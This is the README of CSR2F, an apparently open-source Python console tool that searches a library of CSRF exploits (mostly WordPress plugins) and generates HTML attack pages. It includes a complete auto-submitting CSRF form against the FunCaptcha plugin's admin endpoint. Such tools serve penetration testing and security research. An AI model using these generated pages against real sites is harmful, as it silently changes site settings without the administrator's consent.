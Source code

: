 CSR2F
=====

CSR2F (Cross-Site Request Forgery Framework) is an open source tool written in Python and used for generating CSRF (Cross-Site Request Forgery) exploits.
It allows you to search an exploit for a specific case (for example a vulnerable WordPress plugin), then to configure and generate the HTML code.


Prerequisites
----

* CSR2F uses [Python 3](http://www.python.org/download/) to run.


Installation
----

You can download the latest tarball by clicking [here](https://github.com/ncrocfer/csr2f/tarball/master) or latest zipball by clicking [here](https://github.com/ncrocfer/csr2f/zipball/master).

Preferably, you can download CSR2F by cloning the [Git](https://github.com/ncrocfer/csr2f) repository:

    git clone https://github.com/ncrocfer/csr2f.git


Usage
----

You must execute the `csr2f.py` file to start CSR2F and obtain a prompt:

    shatter@shatter:~/csr2f$ python3 csr2f.py

    *********************************************************
    *                                                       *
    *     ______   ______   _______      _____   ________   *
    *   .' ___  |.' ____ \ |_   __ \    / ___ `.|_   __  |  *
    *  / .'   \_|| (___ \_|  | |__) |  |_/___) |  | |_ \_|  *
    *  | |        _.____`.   |  __ /    .'____.'  |  _|     *
    *  \ `.___.'\| \____) | _| |  \ \_ / /_____  _| |_      *
    *   `.____ .' \______.'|____| |___||_______||_____|     *
    *                                                       *
    *         Cross Site Request Forgery Framework          *
    *                                                       *
    * Version  : 0.1b                                       *
    * Author   : Nicolas Crocfer                            *
    * Website  : http://csr2f.github.com                    *
    * Licence  : GPLv3                                      *
    *                                                       *
    *********************************************************

    [+] 207 exploits loaded

    csr2f> 


**help**

This command describes the other commands and shows their usage.

    csr2f> help

    Commands	Description
    ========	===========

    config  	Display the configuration options
    clear   	Clear the current screen
    search  	Search an exploit based on keyword
    show    	Display informations about an exploit based on its ID
    set     	Set special fields for an exploit
    generate	Generate the exploit to the console or in a file
    ...			...

    csr2f> help config

    This command is used to view and modify the basic configuration. You
    can view it by typing 'config' without argument.

    Usage:	config <item> <value>
    Ex:	config host_url http://www.example.com

    csr2f>


**config**

This command is used to view and modify the basic configuration.

    csr2f> config

        Config			Value
        ======			=====
    
        host_url		http://www.example.com
        redirect		False
        html_skeleton	True
        html_title		CSR2F : Cross Site Request Forgery Framework
        redirect_url	http://www.example.com

    csr2f> config redirect True
    [+] The value has been modified
    csr2f>


**search**

You can search an exploit based on keywords by using the `search` command.

    csr2f> search wordpress plugin

    ID      Method     Name                           Description
    ==      ======     ====                           ===========
  
    112     POST       Wordpress FunCaptcha plug...   A CSRF vulnerability allows to disable...
    134     POST       Wordpress Mathjax Latex P...   There is no CSRF protection on the mat...
    175     POST       WordPress SolveMedia 1.1.0     SolveMedia is a capatcha service that ...
    ...     ...        ...                            ...

    csr2f>


**show**

This command is used to show the informations about an exploit (author, description, configuration...). 

    csr2f> show 112

    Informations
    ============

        Name : Wordpress FunCaptcha plugin 0.3.2
        ----
    
        Description
        -----------
        A CSRF vulnerability allows to disable the plugin by submitting an invalid private or public key.
    
        Author : Nicolas Crocfer (http://www.shatter.fr)
        ------
    
        Method & Path : (POST) /wp-admin/plugins.php?page=funcaptcha/wp_funcaptcha.php
        -------------

    Configuration
    =============

    	funcaptcha[public_key] => foo
    	----------------------
    	Value of the new public key

    	funcaptcha[private_key] => bar
        -----------------------
        Value of the new private key

    csr2f>


**set**

Each exploit can contain special fields that you can edit (for example a username, a password, an email adress...). This command is used to	change these values.

    csr2f> set 112 funcaptcha[public_key] 1234
    [+] The value has been modified
    csr2f>

**generate**

This command is used to generate the HTML exploit. You can display it on the screen by typing `generate <id>` without other argument. You can also pass a filename to create a new file.

    csr2f> generate 112

    <!DOCTYPE html>
    <html>
      <head>
          <meta charset="utf-8"/>
          <title>
              CSR2F : Cross Site Request Forgery Framework
          </title>
      </head>
      <body>
        <form action="http://www.example.com/wp-admin/plugins.php?page=funcaptcha/wp_funcaptcha.php" id="csr2f" method="post">
          <input name="funcaptcha[public_key]" type="hidden" value="foo"/>
          <input name="funcaptcha[private_key]" type="hidden" value="bar"/>
          <input name="funcaptcha[action]" type="hidden" value="settings"/>
          <input name="funcaptcha[type]" type="hidden" value="Settings"/>
        </form>
        <script type="text/javascript">
          document.getElementById("csr2f").submit();
        </script>
      </body>
    </html>

    csrf2> generate 112 index.html
    [+] The file was created in 'output' folder
    csrf2>


**Other commands**

* `clear` : Clear the user screen
* `update` : Update the exploits list
* `exit` : Exit the console


Creating a new exploit
----

For the time being, CSR2F does not include a lot of exploits. I am currently incorporating the ones already online on [exploit-db.com](http://www.exploit-db.com/search/?action=search&filter_description=csrf).

But the goal of this framework is to be the reference for CSRF vulnerabilities : so I encourage you to integrate your exploit to this tool when you discover a new vulnerability, and thereby increase the list with your contributions.

CSR2F uses a simple template for integrating new exploits. Each exploit is located in the `exploits` folder. For the moment this tool is still in Beta version, so I am waiting the return of beta testers to see if I need to add or modify the template system and then update this documentation. Anyway you can view the existing templates and tell me what do you think about.


Oh, one last thing
----

I'm a French developer, my English is not perfect and I thank you in advance to tell me my mistakes :)